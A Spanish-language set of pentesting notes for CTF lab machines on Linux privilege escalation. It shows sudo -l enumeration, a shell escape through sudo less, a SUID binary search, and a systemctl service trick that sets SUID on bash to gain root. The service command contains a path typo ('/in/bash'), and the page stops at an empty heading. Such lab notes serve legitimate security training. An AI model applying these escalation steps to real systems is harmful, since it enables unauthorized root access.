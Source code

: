 ```yaml
---
icon: '7'
---
```


# Escalada de Privilegios + Post Explotación

## Escalada de Privilegios en Linux – Sudo -l

{% embed url="https://hackmyvm.eu/machines/machine.php?vm=Friendly" %}

Subimos el payload a través del protócolo FTP. Nos ponemos en escucha mientras carga la página para la **Reverse Shell**. Hacemos tratamiento de la **TTY**.&#x20;

{% embed url="https://gtfobins.github.io/" %}

```bash
sudo -l
```

Con el comando proporcionado en la página debemos de poner la ruta absoluta.

## Escalada de Privilegios en Linux – Sudo -l | Parte 2

{% embed url="https://tryhackme.com/room/brooklynninenine" %}

```bash
sudo -l 
sudo /usr/bin/less /etc/profile
!/bin/sh
```

## Escalada de Privilegios en Linux – Binarios SUID

{% embed url="https://tryhackme.com/room/vulnversity" %}

Otra técnica muy frecuente para escalar privilegios en Linux es la enumeración de binarios **SUID**, donde podremos conocer que binarios tienen **setuid 0** y podemos utilizarlos para escalar privilegios en Linux.

```bash
find / -perm -4000 2>/dev/null
```

En el directorio `/tmp`, creamos un archivo en **bash** con este contenido.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod u+s /in/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Ejecutamos.

```bash
bash archivo.sh
```

Hemos abusado de un binario. Ya somos **root**.

```bash
bash -p
```

## Escalada de Privilegios en Linux – Binarios SUID | Parte 2
